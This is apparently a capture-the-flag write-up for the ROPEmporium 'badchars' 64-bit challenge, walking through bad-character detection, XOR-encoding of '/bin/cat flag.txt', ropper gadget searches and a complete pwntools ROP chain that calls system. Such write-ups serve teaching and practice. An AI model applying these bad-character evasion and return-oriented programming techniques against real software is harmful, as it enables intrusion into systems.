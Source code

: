# badchars


## 32bit


## 64bit

Like always check the buffer we know it is 40bytes but its always good to be safe.

Running it we see some pretty bad news
```
badchars are: b i c / <space> f n s
```
Which eliminates `/bin` and other goodies from our input and any opcodes that happen to have the same bytes as the above chars

Converting them to hex so later we can give the bad bytes to `ropper` so it knows to avoid them
```
0x62, 0x69, 0x63, 0x2f, 0x20, 0x66, 0x6e, 0x73
```

### Avoiding Bad Chars


Luckily ROPEmporium was nice and left a hint in the symbol table of the ELF

![hint](imgs/64bit/usefulGadget.png)

If they weren't that nice we could have also found that gadget and other useful gadgets by using `ropper` which is covered in **Finding Gadgets** section below

So now that we know we have a nice XOR gadget to be used we need to XOR the badchars in `/bin/cat flag.txt` with a key in this instance a single letter because of the useful gadget:
```
xor byte ptr [r15], r14b; ret;
```
This XORs a single byte in r15 with the low/first byte of r14. The XOR key is just be a single char

Using [xor.py](xor.py) a quick and dirty script made to help find a key that didn't produce any badchars

The key doesn't have to be the same for all of them. I just did for convience.
And only XOR the bad chars and not the whole string or later the ROPchain will have too many operations

```
"/bin/cat flag.txt" XOR "D" = "k&-*k'atd"lag.txt"
```

Now that we have disguise our favorite string we can move on to creating the payload

### Creating the Payload

The payload is made of 3 parts
1) Loading the string to memory
2) Modifying the string in memory
3) Loading the string into the system call

#### Finding Gadgets

`ropper` is a super handy gadget finder that gef uses to locate ROP gadgets. It's general usage is as follows
- A 'gadget' in ROP terms is a string of asm operations followed by a ret call so it can be chained or returned into the next part of the ropchain
- `--search` uses a regex to find your query in the asm's opcodes ex: `--search "pop rdi"` will return gadgets that contain `pop rdi`
- `-b` is used to specify bad bytes, which is critical for this challenge

```
ropper --search $QUERY -b 6269632f20666e73 #-b is bad bytes and the number is all the bad bytes above just lumped together
```

#### Loading the String

Searching by `mov qword` we get mov the value of r12 into the memory address stored in r13

```
ropper --search "mov qword" -b 6269632f20666e73

0x0000000000400b34: mov qword ptr [r13], r12; ret;
```

Now we need to load data into r12 and r13

Searching for `pop r12` we get:

```
ropper --search "pop r12" -b 6269632f20666e73

0x0000000000400b3b: pop r12; pop r13; ret;
```

Now that we can load our string into memory, we need to find somewhere to place the string into memory. We can find this by looking at the ELF's sections.

Using `rabin2` from radare2
```
rabin2 -S badchars
```
![data section](imgs/64bit/data.png)

Code Snip of it all together:
```
data_start = 0x601080 # pop_r12_r13 = p64(0x400b3b)
mov_r13_r12 = p64(0x400b34)
load_str_1 = pop_r12_r13 + bin_cat + p64(data_start) + mov_r13_r12
load_str_2 = pop_r12_r13 + flag_txt + p64(data_start+0x8) + mov_r13_r12
load_str_3 = pop_r12_r13 + last_bit + p64(data_start+0x10) + mov_r13_r12
load_str = load_str_1 + load_str_2 + load_str_3
```

I'm using .bss `0x601080` instead of .data `0x601070` because the third char for the string would have landed at `0x601073` which ends in a bad char `0x73` aka 's'

You could offset it by one and have the start be `0x601071` so then the third char is `0x601074` instead of `0x601073` it really doesn't matter.

But throught this whole challenge be aware of the bad chars and if something isn't working but it definately should then it's probably bad chars.

Test and get this part working before moving on.

![loaded string](imgs/64bit/loadedString.png)

#### Modifing the String

Now that the string is loaded into memory we can modify it back to it's original state

We'll use that `usefulGadget` we found from before
```
xor byte ptr [r15], r14b; ret;
```

But we need to find a way to load data into r15 and r14
```
ropper --search "pop r14" -b 6269632f20666e73

0x0000000000400b40: pop r14; pop r15; ret;
```

Now we just need to make a ropchain with the previously used key to xor the string back to `/bin/cat flag.txt`

Code Snip of it all together:
```
key = "D".ljust(8,"\x00").encode() #left justfied so it becomes 8 bytes in length "D\x00\x00\x00\x00\x00\x00\x00"
pop_r14_r15 = p64(0x400b40)
xor_r15_r14b = p64(0x400b30)

# 'D' ^ '/'
xor_str_0 = pop_r14_r15 + key + p64(data_start) + xor_r15_r14b
# 'D' ^ 'b'
xor_str_1 = pop_r14_r15 + key + p64(data_start+0x1) + xor_r15_r14b
# 'D' ^ 'i'
xor_str_2 = pop_r14_r15 + key + p64(data_start+0x2) + xor_r15_r14b
# 'D' ^ 'n'
xor_str_3 = pop_r14_r15 + key + p64(data_start+0x3) + xor_r15_r14b
# 'D' ^ '/'
xor_str_4 = pop_r14_r15 + key + p64(data_start+0x4) + xor_r15_r14b
# 'D' ^ 'c'
xor_str_5 = pop_r14_r15 + key + p64(data_start+0x5) + xor_r15_r14b
xor_cat = xor_str_0 + xor_str_1 + xor_str_2 + xor_str_3 + xor_str_4 + xor_str_5

# 'D' ^ ' '
xor_str_8 = pop_r14_r15 + key + p64(data_start+0x8) + xor_r15_r14b
# 'D' ^ 'f'
xor_str_9 = pop_r14_r15 + key + p64(data_start+0x9) + xor_r15_r14b
xor_flag = xor_str_8 + xor_str_9

xor_str = xor_cat + xor_flag
```

Once again run and test this stage of the exploit before moving on. The less to debug is always better.

![modified string](imgs/64bit/modifiedString.png)


#### System Call!

Now we get to feed the address of our string to the system call and get the flag!

Once again using ropper to locate a `pop rdi` since $rdi is the 1st arg in x86\_64 asm code.
```
ropper --search "pop rdi" -b 6269632f20666e73

0x0000000000400b39: pop rdi; ret;
```

And like alwasy there is a `usefulFunction`
```
gef> uf usefulFunction  or  disass usefulFunction
0x00000000004009e8 <+9>:     call   0x4006f0 <system@plt>
```

Code Snip of it all together:
```
system = p64(0x4009e8)
pop_rdi = p64(0x400b39)
system_call = pop_rdi + p64(data_start) + system

payload = load_str + xor_str + system_call
```

![ladies and gentlemen. We got him](imgs/64bit/loaded.png)
